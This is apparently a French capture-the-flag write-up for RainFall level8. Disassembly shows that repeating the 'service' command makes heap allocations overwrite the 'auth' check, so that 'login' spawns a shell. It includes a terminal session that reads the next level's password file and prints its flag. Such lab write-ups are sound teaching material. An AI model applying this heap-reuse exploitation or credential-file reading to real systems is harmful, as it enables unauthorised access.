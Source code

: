 Dans ce niveau on voit avec radar qu'il y a des instructions qui sont compare:
    `"auth "`, `"reset"`,`"service"` et `"login"`

Quand on tape `"auth "` en premier input on voit que le prog store a cette adresse `0x804a008`

Ensuite avec `"reset"` on appelle un free donc on veut pas ca

En utilisant `"service"` on store a une nouvelle adresse avec strdup `0x804a018`

Il faut donc reutiliser `"service"` pour que strdup reecrive sur le "auth "

Ensuite la commande `"login"` nous permet de lancer la comparaison qui est donc valide

On a donc le `"/bin/sh"` qui se lance une fois que la comparaison est bonne:
```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 
service
0x804a008, 0x804a028 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$ 
```
On peut donc lancer la commande `cat /home/user/level9/.pass` qui nous donne le flag:
    `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a`